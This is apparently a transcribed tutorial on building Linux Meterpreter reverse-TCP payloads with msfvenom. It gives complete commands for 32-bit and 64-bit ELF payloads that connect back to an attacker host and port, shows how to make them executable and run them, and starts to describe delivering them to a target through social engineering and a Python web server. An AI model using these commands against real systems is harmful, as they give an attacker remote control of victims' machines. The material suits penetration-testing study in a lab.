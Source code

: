How to generate Linux payloads.

So whenever you are generating a Linux payload, you have the ability to output it into a binary file or an ELF file, which can both be executed immediately. 

And then you can specify the architecture if you want. Although, that's not required because you're going to be specifying the architecture within the actual payload type. So if I'm generating a 32-bit Linux payload. And then I specify the actual type of payload, which is meterpreter. And then I can specify the protocol to use which, in this case, is going to be a reverse TCP connection. And then the LHOST option, this is where you specify the attacker's IP address or the IP that you want the payload to connect back to. And then you specify the port to connect back to. And then you specify the output format as ELF because we're outputting this into an extensible linking format for Linux. And you can then provide it with the ELF extension, or you can output it directly into a binary. I'm not going to provide any extension because the binary can directly be executed.

That is going to generate a staged Linux 32-bit meterpreter payload. It gets the actual architecture from the payload if we don't specify it explicitly. And it also gets the platform from the payload. So the most important thing that you'll need to specify whenever generating a malicious payload is the actual payload type.

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -f elf > ~/Desktop/Linux_Payloads/payloadx86
```

```
cd Linux_Payloads/
ls
chmod +x payloadx86
./payloadx86
```

Generating a 64-bit Linux payload.

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -f elf > ~/Desktop/Linux_Payloads/payloadx64
```

Now, in terms of transferring them onto the target, that is going to depend on the type of social engineering technique that you will utilize.

In my case, we are going to transfer the Windows payload first to a Windows 7 system. 

So, in order to transfer this Windows payloads onto the target Windows 7 system. I'm going to navigate into the Windows payloads directory, and I'm going to set up a simple web server within this folder to server these two payload files. And then I'll head over onto Windows 7 system and then download the payloads from Kali Linux web server that I'll set up. 

```
cd Windows_Payloads/
ls
```

So, in order to set up a simple web server to host these files. We're using a Python module called SimpleHTTPServer. And I'll host this on port 80.

I will be able to access all of these files on the Kali Linux IP on port 80.

